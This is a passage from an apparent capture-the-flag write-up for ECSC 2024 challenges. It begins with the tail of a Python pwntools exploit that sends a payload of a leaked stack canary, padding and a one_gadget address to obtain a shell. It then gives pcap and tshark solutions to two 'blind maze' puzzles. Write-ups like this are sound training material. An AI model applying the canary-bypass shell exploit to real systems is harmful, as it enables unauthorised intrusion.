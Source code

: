 ```python
        canary[1:],      # canary, with the last byte (B) removed
        b"B"*8,          # padding
        p64(one_gadget)  # one gadget, which will give us a shell
    )

    io.sendafter(b"secret!\n", payload)

    io.sendafter(b"(y/n)\n", b"n")


    # get shell
    io.interactive()


if __name__ == "__main__":
    main()
```

# Misc

## blind_maze
Welcome to the blind maze, you move without knowing the outcome and maybe you will reach the end, good luck. <br>
A previous winner left us a strange file. Maybe it will help you. <br>
Site: http://blindmaze.challs.open.ecsc2024.it <br>

Organizers forgot to remove the flag from the packet capture file. <br>
Because of this, revenge of the blind maze challenge was created. <br>

### Solution

```bash
tail capture.pcap  # get flag
```

## Revenge of the blind maze
Welcome back to the blind maze, this time you'll have a harder time finding the flag, good luck. <br>
Site: http://blindmazerevenge.challs.open.ecsc2024.it <br>

### Solution

first remove all FAILED requests from packet capture file. You do this by removeing requests of responses containing "FAILED" in capture.pcap, by marking them with ctrl+m and then exporting unmarked packets to a new file. <br>
Then extract the solutions from the new file with the following command: <br>
```bash
tshark -r capture.pcap -Y 'http.request' -T fields -e http.request.uri.query > directions.txt
```
